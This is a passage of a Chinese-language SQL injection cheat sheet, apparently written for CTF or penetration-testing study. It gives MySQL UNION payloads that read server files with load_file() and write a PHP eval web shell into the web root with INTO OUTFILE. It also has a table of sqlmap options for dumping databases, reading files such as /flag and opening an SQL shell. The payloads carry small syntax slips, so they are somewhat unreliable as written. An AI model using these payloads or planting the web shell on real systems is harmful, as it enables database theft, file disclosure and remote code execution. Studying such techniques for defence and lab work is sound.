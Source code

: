 ### 3.7. load_file()

#### 3.7.1. 检查权限

```sql
and (select count(*) from mysql.user)>0
```

若结果返回正常，说明具有读写权限

```sql
-- 读取文件
union select1,2,load_file('c:/temp/key.txt') --+
-- 写文件
union select 1,2,'<?php eval($_REQUEST["abc"]);?>',into outfile '/var/www/html/shell.php'  --+
```

## 4. 工具注入

#### 4.1.1. sqlmap

| 参数             | 作用                  | 示例                     |
| -------------- | ------------------- | ---------------------- |
| `--technique`  | 指定测试类型(B,T,U,E,S,Q) | `--technique=B,T`      |
| `--batch`      | 非交互模式（自动选择默认选项）     | `--batch`              |
| `--dbms`       | 指定数据库类型             | `--dbms=mysql`         |
| `--level`      | 测试等级（1-5，默认1）       | `--level=3`            |
| `--risk`       | 风险等级（1-3，默认1）       | `--risk=2`             |
| `--threads`    | 并发线程数（加速检测）         | `--threads=5`          |
| `--dbs`        | 获取所有数据库名            | `--dbs`                |
| `-D database`  | 指定目标数据库             | `-D testdb`            |
| `--tables`     | 获取数据库表名             | `--tables`             |
| `-T table`     | 指定目标表               | `-T users`             |
| `--columns`    | 获取表字段名              | `--columns`            |
| `-C column`    | 指定目标字段              | `-C username,password` |
| `--dump`       | 导出表数据               | `--dump`               |
| `--time-sec`   | 时间盲注间隔              | `--time-sec 2`         |
| `--tamper`     | 指定处理脚本              | `--tamper=charencode`  |
| `--file-read`  | 读取文件                | `--file-read "/flag"`  |
| `--sql-shell`  | 启动 sqlshell         | 无需参数                   |
| `--force-ssl`  | 使用 HTTPS            | 无需参数                   |
| `--union-cols` | 联合查询列数              | `--union-cols=4`       |
| `--union-char` | 指定第几列为回显位置          | `--union-char=2`       |
